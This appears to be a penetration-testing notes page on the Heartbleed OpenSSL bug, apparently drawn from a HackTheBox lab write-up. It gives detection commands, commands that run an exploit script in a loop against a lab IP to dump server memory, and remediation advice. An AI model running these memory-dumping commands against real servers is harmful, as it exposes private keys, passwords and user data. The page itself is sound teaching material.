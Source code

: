 # Heartbleed

## Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging \(IM\) and some virtual private networks \(VPNs\).

The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users.

[https://heartbleed.com/](https://heartbleed.com/)

### Summary

Heartbleed is a logic error that allowed an attacker to grab chunks of random memory that they shouldn’t have had access to.

There’s no better explanation of Heartbleed than [xkcd’s](https://xkcd.com/1354/):

![Are you still there, server? It&apos;s me, Margaret.](https://0xdf.gitlab.io/img/xkcd-heartbleed_explaination.png)

### Detecting Heartbleed

```text
nmap -p 443 --script ssl-heartbleed IP
sslyze --heartbleed <IP>
```

### Running the Exploit

The script runs and grabs memory from the target server \(it’s useful to remove lines of 0\):

```text
python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
```

You can run it a ton of times to collect a bunch of data: `for i in $(seq 1 100000); do python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done`

Then use fdupes to remove duplicates:

```text
apt install fdupes
fdupes -rf . | grep -v '^$' > files
xargs -a files rm -v
```

This text was extracted from here:

{% embed url="https://0xdf.gitlab.io/2018/07/28/htb-valentine.html\#explanation--excuse-to-show-xkcd" %}

## Remediation

As long as the vulnerable version of OpenSSL is in use it can be abused. [Fixed OpenSSL](https://www.openssl.org/news/secadv/20140407.txt) has been released and now it has to be deployed. Operating system vendors and distribution, appliance vendors, independent software vendors have to adopt the fix and notify their users. Service providers and users have to install the fix as it becomes available for the operating systems, networked appliances and software they use.

